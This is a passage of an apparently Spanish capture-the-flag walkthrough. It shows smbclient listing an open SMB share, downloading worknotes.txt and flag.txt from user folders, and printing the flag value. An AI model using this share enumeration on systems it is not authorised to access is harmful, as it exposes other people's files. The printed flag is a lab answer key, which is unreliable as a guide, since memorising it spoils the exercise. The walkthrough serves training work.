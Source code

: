 Podemos notar que la mayoría de los comandos de Linux están presentes. Usaremos los siguientes comandos para navegar por el recurso compartido.

- ls : listing contents of the directories within the share
- cd : changing current directories within the share
- get : downloading the contents of the directories within the share
- exit : exiting the smb shell

Si escribimos el comando `ls` nos mostrará dos directorios, uno para Amy.J y otro para James.P. Ingresamos al primer directorio y encontramos el archivo `worknotes.txt`, que podemos descargar usando el comando `get`.

```
smb: \> ls
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1751781 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> LS
  .                                   D        0  Mon Mar 29 04:08:24 2021
  ..                                  D        0  Mon Mar 29 04:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 06:00:37 2021

		5114111 blocks of size 4096. 1751781 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

Este archivo ahora se guarda dentro de la ubicación desde donde ejecutamos nuestro comando smbclient. Sigamos buscando otros archivos en el directorio de James.P. Cambiando de directorio, Podemos encontrar el archivo flag.txt que nos interesa. Después de descargar este archivo, podemos usar el comando `exit` para salir del shell y verificar los archivos que acabamos de recuperar.

```
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021

		5114111 blocks of size 4096. 1751781 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \James.P\> exit
┌─[fabro@parrot]─[~]
└──╼ $ls
flag.txt worknotes.txt
┌─[fabro@parrot]─[~]
└──╼ $cat flag.txt 
5f61c10dffbc77a704d76016a22f1664
```
